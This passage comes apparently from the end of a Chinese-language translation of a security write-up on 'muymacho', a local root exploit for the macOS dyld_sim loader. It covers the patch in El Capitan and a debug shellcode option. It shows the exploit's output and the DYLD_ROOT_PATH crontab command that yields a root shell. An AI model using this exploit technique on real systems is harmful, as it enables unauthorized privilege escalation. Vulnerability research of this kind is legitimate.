 ```
[+] creating macho file: /Users/user/tmp/usr/lib/dyld_sim    LC_SEGMENT_64: segment 0x00    vm_addr: 0x7ffe6ec1d000    LC_SEGMENT_64: segment 0x01    vm_addr: 0x7ffe6dc1d000    LC_SEGMENT_64: segment 0x02    vm_addr: 0x7ffe6cc1d000    LC_SEGMENT_64: segment 0x03    vm_addr: 0x7ffe6bc1d000    LC_SEGMENT_64: segment 0x04    vm_addr: 0x7ffe6ac1d000    LC_SEGMENT_64: segment 0x05    vm_addr: 0x7ffe69c1d000    LC_SEGMENT_64: segment 0x06    vm_addr: 0x7ffe68c1d000    LC_SEGMENT_64: segment 0x07    vm_addr: 0x7ffe67c1d000    LC_SEGMENT_64: segment 0x08    vm_addr: 0x7ffe66c1d000    LC_SEGMENT_64: segment 0x09    vm_addr: 0x7ffe65c1d000    LC_SEGMENT_64: segment 0x0a    vm_addr: 0x7ffe64c1d000    LC_SEGMENT_64: segment 0x0b    vm_addr: 0x7ffe63c1d000    LC_SEGMENT_64: segment 0x0c    vm_addr: 0x7ffe62c1d000    LC_SEGMENT_64: segment 0x0d    vm_addr: 0x7ffe61c1d000    LC_SEGMENT_64: segment 0x0e    vm_addr: 0x7ffe60c1d000    LC_SEGMENT_64: segment 0x0f    vm_addr: 0x7ffe5fc1d000    LC_SEGMENT_64: segment 0x10    vm_addr: 0x7ffe5ec1d000    LC_SEGMENT_64: segment 0x11    vm_addr: 0x7ffe5dc1d000    LC_SEGMENT_64: segment 0x12    vm_addr: 0x7ffe5cc1d000    LC_SEGMENT_64: segment 0x13    vm_addr: 0x7ffe5bc1d000    LC_SEGMENT_64: segment 0x14    vm_addr: 0x7ffe5ac1d000    LC_SEGMENT_64: segment 0x15    vm_addr: 0x7ffe59c1d000    LC_SEGMENT_64: segment 0x16    vm_addr: 0x7ffe58c1d000    LC_SEGMENT_64: segment 0x17    vm_addr: 0x7ffe57c1d000    LC_SEGMENT_64: segment 0x18    vm_addr: 0x7ffe56c1d000    LC_SEGMENT_64: segment 0x19    vm_addr: 0x7ffe55c1d000    LC_SEGMENT_64: segment 0x1a    vm_addr: 0x7ffe54c1d000    LC_SEGMENT_64: segment 0x1b    vm_addr: 0x7ffe53c1d000    LC_SEGMENT_64: segment 0x1c    vm_addr: 0x7ffe52c1d000    LC_SEGMENT_64: segment 0x1d    vm_addr: 0x7ffe51c1d000    LC_SEGMENT_64: segment 0x1e    vm_addr: 0x7ffe50c1d000    LC_SEGMENT_64: segment 0x1f    vm_addr: 0x7ffe4fc1d000
[+] building payload
[+] dyld_sim successfully created
To exploit enter:  DYLD_ROOT_PATH=/Users/user/tmp crontab
user@yosemite:~/tmp$ DYLD_ROOT_PATH=/Users/user/tmp crontab
bash-3.2#

```

0x0A 补丁
=====

EI Capitan对dyld做了很多修改。特别是对dyld_siｍ文件验证更加严格，修补了muymacho使用的漏洞。几种不同的检查保证了连续的segment都拥有正常的fileoff和vmaddr值。

在本文写作时，苹果还没有发布EI Capitan的源代码。但是一些修改可以通过IDA pro来查看。

0x0B 总结
=====

本节总结了本文的大部分内容。我们已经讨论漏洞的发现，问题分析，直到利用。完整的利用程序分享在[github](https://github.com/luismiras/muymacho)。

我希望本文能够对你有用。这是个有趣的bug，我非常享受编写muymacho的过程。

谢谢所有修订本文的人（Pete Markowsky, Ian Melven, Josha Bronson）。同时谢谢[@i0n1c](https://twitter.com/i0n1c)发布的挑战，是它导致本漏洞的发现。

调试shellcode
-----------

有时候我很好奇到底是哪一个segment在利用执行的过程中起到了作用，面对不同的ASLR地址。实际上，真实的地址也不是那么重要。但我还是加入了一段debug shellcode来将信息返回给用户。

debug shellcode通过“-d”参数来开启。在muymacho返回‘#’符号后，输入

```
echo "$MUYMACHO"

```
